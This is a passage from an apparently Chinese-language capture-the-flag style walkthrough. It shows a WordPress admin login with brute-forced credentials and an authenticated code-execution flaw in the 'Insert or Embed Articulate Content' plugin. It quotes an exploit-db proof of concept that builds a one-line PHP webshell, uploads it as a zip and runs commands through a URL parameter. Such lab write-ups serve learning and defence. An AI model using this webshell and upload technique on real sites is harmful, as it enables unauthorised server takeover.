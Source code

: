 ![12](https://havocykp.github.io/assets/images/img_blog13/12.png)

使用爆破的账号/密码登录WordPress后台

① 使用 barney账户登录，可以看到这个站点安装了三个插件，但是只激活了一个

**Insert or Embed Articulate Content into WordPress Trial Version 4.2995**

![13](https://havocykp.github.io/assets/images/img_blog13/13.png)

![14](https://havocykp.github.io/assets/images/img_blog13/14.png)

根据提示，发现有可用的插件更新（依据插件版本找寻是否存在漏洞点）

![15](https://havocykp.github.io/assets/images/img_blog13/15.png)

② 使用stephen登录，发现能操作的功能很少

![16](https://havocykp.github.io/assets/images/img_blog13/16.png)

在Google上直接搜索插件名，发现在 exploit-db有相关信息

![17](https://havocykp.github.io/assets/images/img_blog13/17.png)

exploit-db说明了具体的操作步骤：

```javascript
# Exploit Title: Authenticated code execution in `insert-or-embed-articulate-content-into-wordpress` Wordpress plugin
# Description: It is possible to upload and execute a PHP file using the plugin option to upload a zip archive 
# Date: june 2019
# Exploit Author: xulchibalraa
# Vendor Homepage: https://wordpress.org/plugins/insert-or-embed-articulate-content-into-wordpress/
# Software Link: https://downloads.wordpress.org/plugin/insert-or-embed-articulate-content-into-wordpress.4.2995.zip
# Version: 4.2995 <= 4.2997 
# Tested on: Wordpress 5.1.1, PHP 5.6 
# CVE : -


## 1. Create a .zip archive with 2 files: index.html, index.php

echo "<html>hello</html>" > index.html
echo "<?php echo system($_GET['cmd']); ?>" > index.php
zip poc.zip index.html index.php 

## 2. Log in to wp-admin with any user role that has access to the plugin functionality (by default even `Contributors` role have access to it)
## 3. Create a new Post -> Select `Add block` -> E-Learning -> Upload the poc.zip -> Insert as: Iframe -> Insert (just like in tutorial https://youtu.be/knst26fEGCw?t=44 ;)
## 4. Access the webshell from the URL displayed after upload similar to 

http://website.com/wp-admin/uploads/articulate_uploads/poc/index.php?cmd=whoami
```

